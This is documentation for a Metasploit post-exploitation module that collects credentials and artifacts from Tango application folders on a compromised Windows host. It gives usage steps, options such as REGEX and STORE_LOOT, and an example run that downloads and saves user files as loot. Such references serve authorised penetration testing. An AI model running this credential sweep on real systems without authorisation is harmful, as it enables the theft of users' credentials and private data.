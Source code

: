 ## Module Description

This post-exploitation module gathers artifacts found on tango related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/tango
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/tango) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Tango's parent folder found
[*] Tango's parent folder found
[*] Tango's Install.log file found
[*] Downloading C:\Users\IEUser\AppData\Local\tango\install.log
[*] Tango Install.log downloaded
[+] File saved to:  /root/.msf4/loot/20210521114758_default_192.168.56.106_tangoinstall.log_259187.log

[+] File with data saved:  /root/.msf4/loot/20210521114759_default_192.168.56.106_EXTRACTIONinstal_843961.log
[*] Tango's parent folder found
[*] Tango's Userinfo1.xml file found
[*] Downloading C:\Users\IEUser\AppData\Local\tango\userinfo1.xml
[*] Tango Userinfo1.xml downloaded
[+] File saved to:  /root/.msf4/loot/20210521114759_default_192.168.56.106_tangouserinfo1.x_614135.xml

[+] File with data saved:  /root/.msf4/loot/20210521114759_default_192.168.56.106_EXTRACTIONSuseri_076763.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```